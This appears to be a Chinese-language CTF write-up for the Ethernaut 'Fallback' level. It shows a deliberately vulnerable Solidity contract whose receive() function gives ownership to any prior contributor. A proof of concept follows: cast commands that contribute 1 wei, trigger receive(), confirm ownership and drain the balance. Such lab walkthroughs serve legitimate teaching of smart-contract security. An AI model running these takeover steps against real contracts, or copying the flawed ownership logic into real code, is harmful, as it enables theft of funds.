 # Level 1 Fallback
實例地址：`0x857f120af9D8940ba7E8546c53BAf58bEeC7a1FD`

##  題目說明
仔細看下面的合約程式碼。

要通過這關你需要

獲得這個合約的所有權
1.  把合約的餘額歸零
2.   可能會有用的資訊

*   如何透過與 ABI 互動發送 ether
*   如何在 ABI 之外發送 ether
*   轉換 wei/ether 單位 (參見 help() 指令)
*   fallback 方法

```solidty!
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## POC
在這個合約能轉移 Owner 的 Method 有兩個分別是 `contribute()` 和 `receive()` ， 在 `contribute()` 中，我們貢獻的 ether 必須要大於 1000 ether，但我們每次只能貢獻小於 0.0001 ether，所以我們必須透握 `receive()` 來獲得 Owner 權限，只需要滿足傳入金額大於 0 和貢獻金額大於 0 即可。 再使用 `withdraw()` 獲取全部金額。

1.  使用 `contribute()` 貢獻 1 wei
    ```bash!
    cast send --private-key=<YOUR_PRIVATE_KEY>  0x857f120af9D8940ba7E8546c53BAf58bEeC7a1FD "contribute()"    --value 1
    ```
2.  向該合約轉 1 wei，觸發 `receive()`
    ```bash!
    cast send --private-key=<YOUR_PRIVATE_KEY>  0x857f120af9D8940ba7E8546c53BAf58bEeC7a1FD --value 1
    ```
3. 查詢 owner
    ```
    cast call 0x857f120af9D8940ba7E8546c53BAf58bEeC7a1FD "owner()   (address)"
    //owner: 0xEBA2Ef27A1B85a4685953E82848e9d2E9ED5b0B6
    ```
4. 使用 `withdraw()` 轉移資產
    ```bash!
    cast send --private-key=<YOUR_PRIVATE_KEY>  0x857f120af9D8940ba7E8546c53BAf58bEeC7a1FD "withdraw()"
    ```
